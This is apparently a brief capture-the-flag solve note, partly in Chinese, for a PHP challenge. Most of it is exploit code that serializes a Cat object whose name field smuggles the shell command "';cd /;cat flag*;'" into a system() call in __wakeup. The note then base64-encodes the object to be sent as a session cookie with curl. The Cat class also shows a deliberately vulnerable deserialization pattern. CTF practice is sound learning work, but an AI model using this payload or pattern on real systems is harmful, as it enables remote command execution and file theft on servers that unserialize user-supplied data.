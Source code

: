 http://h4ck3r.quest:8601/




solve:
https://sandbox.onlinephpfunctions.com/

輸入
<?php
class Cat
{
    public $name = 'ls';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

$cat = new Cat("';cd /;cat flag*;'");
  $session = base64_encode(serialize($cat));
  echo $session;


?>


2.
solve.sh :把產生出來的字串 當成 session 用curl傳過去
